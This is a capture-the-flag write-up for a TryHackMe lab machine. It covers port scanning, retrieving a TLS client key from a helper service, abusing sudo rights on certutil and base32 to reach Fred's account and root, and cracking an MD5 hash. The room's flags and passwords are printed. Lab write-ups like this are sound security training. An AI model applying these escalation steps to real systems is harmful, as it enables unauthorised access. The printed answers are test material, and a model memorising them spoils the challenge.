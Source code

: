 

<hr>
<h2> Question 1: flag 1</h2>
I already got some hints from the details in the tryhackme page<br>

```
He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
```

So lets start, nmap scan as usual recon:
```
$ nmap 10.10.246.196
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:17 EDT
Nmap scan report for 10.10.246.196
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Trying Port 9009 in broweser, it returned 

```Unsupported or unrecognized SSL message```

<br>

So as i know if i try to load up the web server on port 80, <br>
it will redirect me to port 4040 <br>
On the website Barney doesn't seems to know what he is doing, and he also mentions
that: **"Looks like it started something else, but I'm not sure how to turn it off!
        He said it was from the toilet and OVER 9000!"**<br>


So there are more ports open than what i currently have<br>
Running nmap again reveals another port that i didnt knew about, **54321**
```
$ nmap 10.10.246.196 -p-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:21 EDT
Nmap scan report for 10.10.246.196
Host is up (0.061s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 33.12 seconds

```
Trying port **54321** returned ```Error: 'undefined' is not authorized for access.```
<br>
<br>
After some messing around, turns out i can connect to port 9009 via netcat:
```
$ ncat 10.10.246.196 9009 


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? 
```
Im looking for flags and passwords!
```
Sorry, unrecognized request: 'password'
You use this service to recover your client certificate and private key
```
The output message says i can recover certificate and a private key
```
What are you looking for? certificate
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----


What are you looking for? key
Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----

```
Okay, i can use this key and certificate via openssl like this(guessing port 54321 because the 9009 didn't worked):
```
openssl s_client -connect 10.10.246.196:54321 -key id_rsa -cert certificate 
```
And after connection, i was able to get Barney's password:
```
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> 
Unrecognized command: ''
This service is for login and password hints
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```
I have no other choice than trying this password via ssh
```
$ ssh barney@10.10.246.196
[...]
barney@10.10.246.196's password: 
barney@ip-10-10-246-196:~$ 
```
Good, now i have the first flag!
```
barney@ip-10-10-246-196:~$ cat barney.txt
THM{f05780f08f0eb1de65023069d0e4c90c}
```
<hr>
<h2> Question 2: Fred's password</h2>
Following the tasks, i have to get access to freds account, and from fred's account, to root!

Executing sudo -l command, returned that i can run certutil as root without password:
```
barney@ip-10-10-246-196:~$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on ip-10-10-246-196:
    (ALL : ALL) /usr/bin/certutil
```
Checking the tool usage, i can generate new keypair for users
```
barney@ip-10-10-246-196:~$ certutil
Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
This gave me an idea to probably do the same as with Barney's account, creating a TLS connection using the two keys?
```
barney@ip-10-10-246-196:~$ sudo certutil fred fred
Generating credentials for user: fred (fred)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----
```
Saving the output to files and trying the connection:
```
$ openssl s_client -connect 10.10.246.196:54321 -cert certificate -key id_rsa
Connecting to 10.10.246.196
CONNECTED(00000003)
[...]
read R BLOCK
Welcome: 'fred' is authorized.
```
And typing help again, it will show freds account password:
```
b3dr0ck> help
Password hint: YabbaDabbaD0000! (user = 'fred')
```
I got Fred's account password, and also the answer to question 2! **YabbaDabbaD0000!**
```
$ ssh fred@10.10.246.196
fred@10.10.246.196's password: 
fred@ip-10-10-246-196:~$ 
```
<hr>
<h2> Question 3: flag 2</h2>

And now i can easly get the second flag too!
```
fred@ip-10-10-246-196:~$ cat fred.txt
THM{08da34e619da839b154521da7323559d}
```
<hr>
<h2> Question 4: flag 3(root)</h2>
Trying again some basic PE mehtods, executing sudo -l command returns that i can run base64 and base32 as root for a specific file

```
fred@ip-10-10-246-196:~$ sudo -l
Matching Defaults entries for fred on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on ip-10-10-246-196:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```
Both command will read the file and encodes it as base64/32<br>
Probably it has the password encoded as base64 or base32<br>
```
fred@ip-10-10-246-196:~$ sudo /usr/bin/base32 /root/pass.txt
JRDEWRKDGUZFUS2SINMFGV2LLBEVUVSVGQZUWSSHJZGVQVKSJJJUYRSXKZJTKMSPKBFECWCVKRGE
4SSKKZKTEUSDK5HEER2YKVJFITCKLJFUMU2TLFFQU===
```
Trying with CyberChef, i decoded from base32 to text, but the output looks like its still encoded
<img src = "cyberchef1.png">
<br>
Its probably double, or triple encoded by base64/32
<br><br>
After trying for a while, it turns out I can decode it two times with base32 and once with base64, this finally gave me an MD5 hash<br>
```Base32 -> Base32 -> Base64 -> MD5```
<img src = "cyberchef2.png">
<br><br>
Lets try cracking the MD5 hash with CrackStation!
<img src = "crackstation.png">
<br>
Success! Lets hope this is the root password

```
fred@ip-10-10-246-196:~$ su - root
Password: 
root@ip-10-10-246-196:~# 
```
Victory! Lets read the root.txt!
```
root@ip-10-10-246-196:~# cat /root/root.txt
THM{de4043c009214b56279982bf10a661b7}
```
